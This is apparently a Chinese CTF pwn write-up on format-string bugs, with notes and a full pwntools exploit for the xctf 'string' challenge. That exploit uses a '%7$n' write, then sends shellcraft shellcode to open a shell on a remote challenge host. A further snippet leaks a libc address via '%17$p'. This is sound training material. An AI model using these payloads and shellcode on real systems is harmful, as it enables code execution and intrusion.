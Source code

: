 ```yaml
---
title: FormatString 
tags: [ctf-pwn]
date: 2023-10-23 13:48:00
categories: [ctf-pwn]
excerpt: xctf-pwn string
---
```


#### xctf string

![](/img/FormatString/1.png)

简单的格式化字符串

这道题目需要注意的点包括

1. 题目中用%x打印出来的地址，可以直接用`int(...,16)`来接收，不要用ljust那一套。。。（-_-||

2. 在利用格式化字符串漏洞的时候，如果用`p64(addr)  + %n(或者%p)...`时，要先保证addr没有`\0`

   就像这道题，我一开始就非得不用它那个%ld输入要写入的地址，就非要把x[0]的地址和后面那一串一起写进去，后果就是print(format)时候根本不会打印aaaa.....和%n，因为地址里有\0，直接停止了😭还在那看了好半天是不是地址的格式问题

3. `shellcraft.sh`用之前**一定要先指定平台 **` context(arch='amd64', os='linux')`

   

exp:

```python
from pwn import *

#p = process("./1d3c852354df4609bf8e56fe8e9df316")
p = remote("61.147.171.105", 58702)

context(arch='amd64', os='linux')

e = ELF("./1d3c852354df4609bf8e56fe8e9df316")

#gdb.attach(p, "b *0x400d36")

p.recvuntil(b"secret[0] is ")
x0 = int(p.recvuntil(b"\n")[:-1], 16)
print(hex(x0))

p.recvuntil(b"What should your character's name be:\n")
p.sendline(b"123")

p.recvuntil(b"So, where you will go?east or up?:")
p.sendline(b"east")
p.recvuntil(b"go into there(1), or leave(0)?:\n")
p.sendline(b"1")

p.recvuntil(b"\'Give me an address\'\n")
p.sendline(str(x0))

p.recvuntil(b"And, you wish is:\n")

payload = b'a' * 85 + b"%7$n"
#payload = b'aaaaaaaa' + b"%p%p%p%p-%p%p%p%p-%p%p%p%p-%p%p%p%p"
p.sendline(payload)

p.recvuntil(b"That's sound terrible! you meet final boss!but you level is ONE!\n")
p.recvuntil(b"Wizard: I will help you! USE YOU SPELL\n")

#shellcode = '\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05'

shellcode = asm(shellcraft.sh())


p.sendline(shellcode)

p.interactive()
```



#### gyctf_2020_some_thing_interesting

<https://buuoj.cn/challenges#gyctf_2020_some_thing_interesting>

本地运行不起来，不知道是什么原因。

直接在栈上泄露返回`__libc_start_main`的偏移地址，算出libc

参考 <https://blog.csdn.net/mcmuyanga/article/details/114643601>

![](/img/FormatString/2.jpg)

```python
r.recvuntil("> Input your code please:")
r.sendline("OreOOrereOOreO%17$p")	#elf 11 libc 17

r.recvuntil("#######################\n")
r.sendline('0')
r.recvuntil("# Your Code is ")
r.recvuntil('0x')

start_main = int(r.recv(12), 16) - 0xf0
libc.address = start_main - libc.sym['__libc_start_main']
```



